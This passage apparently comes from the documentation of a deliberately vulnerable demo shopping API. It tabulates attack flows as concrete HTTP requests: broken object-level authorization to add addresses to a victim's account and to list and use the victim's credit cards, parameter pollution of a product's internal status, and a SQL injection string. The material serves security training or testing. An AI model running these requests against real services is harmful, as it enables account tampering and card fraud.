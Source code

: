 | Step | HTTP Method | Endpoint | Purpose/Attack |
|------|-------------|----------|----------------|
| 1 | POST | `/api/auth/login?username=attacker&password=AttackerPass!` | Attacker logs in |
| 2 | POST | `/api/users/{victim_user_id}/addresses?street=Hacked%20St&city=Exploit&country=Nowhere&zip_code=99999&is_default=false` | Attacker creates address for victim |
| 3 | GET | `/api/users/{victim_user_id}/addresses` | Attacker verifies address was created |

#### Flow 4: BOLA Exploit - Using Another User's Credit Card for Order

| Step | HTTP Method | Endpoint | Purpose/Attack |
|------|-------------|----------|----------------|
| 1 | POST | `/api/auth/login?username=attacker&password=AttackerPass!` | Attacker logs in |
| 2 | GET | `/api/users/{victim_user_id}/credit-cards` | Attacker lists victim's credit cards |
| 3 | POST | `/api/users/{attacker_user_id}/orders?address_id={attacker_address_id}&credit_card_id={victim_card_id}&product_id_1={product_id}&quantity_1=1` | Attacker places order using victim's card |

#### Flow 5: Parameter Pollution - Setting Product Internal Status

| Step | HTTP Method | Endpoint | Purpose/Attack |
|------|-------------|----------|----------------|
| 1 | POST | `/api/auth/login?username=regular&password=RegularPass!` | Regular user logs in |
| 2 | PUT | `/api/products/{product_id}?internal_status=hidden` | User sets internal status field |

#### Injection Vector Example

| Step | HTTP Method | Endpoint | Purpose/Attack |
|------|-------------|----------|----------------|
| 1 | GET | `/api/products/search?name=' OR 1=1 --` | Attempt SQL/NoSQL injection (limited impact in demo, but demonstrates input vector) |

---
